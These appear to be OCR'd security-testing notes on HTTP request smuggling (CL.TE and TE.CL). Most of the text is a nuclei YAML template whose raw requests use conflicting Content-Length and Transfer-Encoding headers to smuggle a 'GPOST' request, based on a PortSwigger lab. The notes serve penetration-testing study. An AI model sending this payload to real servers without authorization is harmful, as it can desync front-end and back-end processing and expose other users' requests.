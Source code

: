  Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store. 
 
***Http request smuggling, basic CL.TE vulnerability***
Http smuggling CL/TE
Content-Length
Transfer-Encoding
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/d14f5da1-9aba-408c-b9ae-4fe03952f0f3)

**HTTP request smuggling, basic TE.CL vulnerability**


Using nuclei

Yaml

```
id: TE-CL-http-smuggling
info:
  name: HTTP request smuggling, basic TE.CL vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl
http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      5c
      GPOST / HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      x=1
      0
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      5c
      GPOST / HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      x=1
      0
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "Unrecognized method GPOST")'
```
**HTTP request smuggling, confirming a CL.TE vulnerability via differential responses**
